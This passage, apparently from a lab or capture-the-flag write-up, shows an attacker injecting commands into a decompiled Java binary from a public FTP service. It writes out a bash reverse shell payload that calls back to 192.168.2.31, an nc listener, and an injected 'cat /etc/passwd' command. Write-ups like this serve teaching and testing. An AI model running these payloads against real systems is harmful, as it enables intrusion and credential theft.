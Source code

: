 And I see that the user `exomorph` is the one running the `bash` command, and I can conclude that I can inject custom `bash` commands.

## Exploitation
Password storage in a recoverable format and password reuse.

Given I identified a `Java` binary on a public `FTP` service, and I also found credentials to access the application, and I could bypass the user permissions, and I could inject custom `bash` commands, then I will try to perform a reverse shell. When I modify the assembler code, and I replaced the `id` command I used above, and I write the following reverse shell payload:
```assembler
266 LDC "bash -c 'bash -i >& /dev/tcp/192.168.2.31/1234 0>&1'"
```
And I save and export the binary again, and I open a listener with the `nc` command:
```shell
$ nc -lnvp 1234
```
And I run and access the `Java` application as I did above, then it does not work, and I decided to try something simpler, when I try to get the '/etc/passwd' file:
```shell
266 LDC "cat /etc/passwd"
```
And I repeat the process to run it again, then it works, and I can see the file `/etc/passwd`:

![evidence](./static/10-etc-passwd.png)
And I try to perform the reverse shell with a different approach.

